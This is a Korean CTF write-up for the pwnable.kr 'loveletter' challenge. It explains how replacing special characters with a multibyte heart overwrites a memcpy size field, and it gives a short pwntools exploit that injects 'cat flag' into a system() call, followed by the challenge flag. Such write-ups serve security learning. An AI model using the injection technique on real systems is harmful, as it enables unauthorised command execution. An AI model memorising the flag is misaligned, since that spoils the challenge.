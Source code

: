 # [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**

**3. [FLAG](#FLAG)**


***


# **Description**

![](images/2022-01-27-17-09-01.png)

# **Write-Up**

파일 정보를 확인하자.

```sh
loveletter@pwnable:~$ checksec loveletter
[*] '/home/loveletter/loveletter'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

readme를 읽어보면 9034로 대기중이라고 한다.

```
loveletter@pwnable:~$ cat readme
connect to port 9034 (nc 0 9034). the 'loveletter' binary will be executed under loveletter_pwn privilege.
pwn it and get a shell and read the flag.
```

love letter에 prolog를 memcpy를 이용하여 붙혀넣는데 size값이 esp + 0x110에 위치하고, 이는 입력값 다음에 위치한다.

![](images/2022-01-27-18-28-40.png)

그렇다면 마지막에 '#&;`'\"|*?~<>^()[]{}$\\,'중 특수문자를 넣는다면, ♥(\xe2\x99\xa5)로 치환되고,

![](images/2022-01-27-18-30-16.png)

길이가 늘어나서 size값을 덮을 것이다.
('a'*254 + '#' => size = \xa5)

![](images/2022-01-27-18-37-18.png)

protect함수에서 특수문자를 ♥로 치환할 때, dword(4byte)형식이다.

![](images/2022-01-27-18-39-16.png)

이를 이용해서 size를 0으로 덮자.
('a'*253 + '#' => size = \x00)

![](images/2022-01-27-18-40-46.png)

입력값에 넣어보면 system("a~~~♥")가 되어서 다음과 같이 실행된다.

```sh
loveletter@pwnable:~$ ./loveletter
♥ My lover's name is : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa#
♥ Whatever happens, I'll protect her...
♥ Impress her upon my memory...
♥ Her name echos in my mind...
sh: 1: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa♥: File name too long
```

FLAG를 획득하자.

```python
loveletter@pwnable:~$ mkdir -p /tmp/2honrr_loveletter
loveletter@pwnable:~$ cd /tmp/2honrr_loveletter
loveletter@pwnable:/tmp/2honrr_loveletter$ vi exploit.py

from pwn import *

payload = 'cat flag' + ' ' * (253 - len('cat flag')) + '#'
r       = remote("127.0.0.1", 9034)
r.sendline(payload)
print(r.recvline().decode().strip())

loveletter@pwnable:/tmp/2honrr_loveletter$ python exploit.py
```

# **FLAG**

**1_Am_3t3rn4l_L0veR**